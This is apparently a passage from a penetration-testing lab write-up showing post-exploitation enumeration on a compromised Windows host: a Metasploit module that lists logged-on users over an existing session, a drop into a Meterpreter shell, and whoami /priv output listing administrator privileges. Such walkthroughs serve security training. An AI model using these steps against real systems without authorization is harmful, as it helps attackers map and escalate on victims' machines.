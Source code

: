 ```powershell
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

- Enumerate **current/recent logged-on users**

```bash
background
search logged_on
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```

![Metasploit - post/windows/gather/enum_logged_on_users](.gitbook/assets/image-20230427170850733.png)

- Back into the `Meterpreter` session

```bash
sessions 1
shell
```

- In the **`Windows command prompt`** session

```powershell
whoami
	win-omcnbkr66mn\administrator
```

```powershell
whoami /priv
```

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State  
=============================== ========================================= =======
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Enabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Enabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeBackupPrivilege               Back up files and directories             Enabled
SeRestorePrivilege              Restore files and directories             Enabled
SeShutdownPrivilege             Shut down the system                      Enabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Enabled
SeUndockPrivilege               Remove computer from docking station      Enabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```
